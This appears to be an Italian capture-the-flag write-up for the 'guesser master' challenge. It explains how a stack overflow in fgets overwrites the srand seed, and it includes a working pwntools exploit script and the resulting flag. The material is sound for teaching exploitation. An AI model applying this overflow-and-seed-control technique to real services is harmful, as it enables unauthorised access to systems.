

# guesser master

### Challenge:
##### typical 255 bytes bruteforce challenge

##### Puoi collegarti al servizio remoto con:
##### ```nc guessermaster.challs.olicyber.it 35006```

##### Files: [guesser_master](guesser_master)

### Solution:
Il binario genera una password a 255 caratteri a partire da un byte preso da /dev/urandom come seed, se diamo la password corretta ci legge la flag.
Notiamo come prima cosa un bof sull'input della password, il quale ci permette di dare come input 256 byte extra.

```c
  printf("input: ");
  fgets((char *)local_118,0x200,stdin);
  srand(local_18[0]);
```

Inoltre, il seed viene impostato dopo il nostro input, questo ci permette di modificare il seed a nostro piacimento.
Sapendo questo basta impostare come seed un valore arbitrario e mandare come primi 256 byte la password da noi calcolata.

```py
from pwn import *

r=remote("guessermaster.challs.olicyber.it", 35006)

r.sendline(b"KRPASEPYBQPHPKEBQMJIQOYMUDDOPSPAKHDGMSHNLWUCKBFBOQJHFITDNWRDSJGDTJLGESVPSSTDUYELQNSXVPDLOWOHHULBGYJKSFDLAWOUYUGRICPGRVTGSIOCGCFMBOAVVDJWCATBUDSFFLNYHHHCSVFYAKNECNAAQKYTMTWIYSPEGEFPNMRGLWFLITRMJSMBFMWRGVCHOSNWYSMMFFTSCBFMWWYHROIYBHTJDXQUQERRYHFEMBXQCFGAEHH\0AAAAAAA")
r.interactive()
```

```bash
[*] Switching to interactive mode
input: I like
Flag: flag{whyguesswhenyoucanpwnright?}
```

Flag: ```flag{whyguesswhenyoucanpwnright?}```
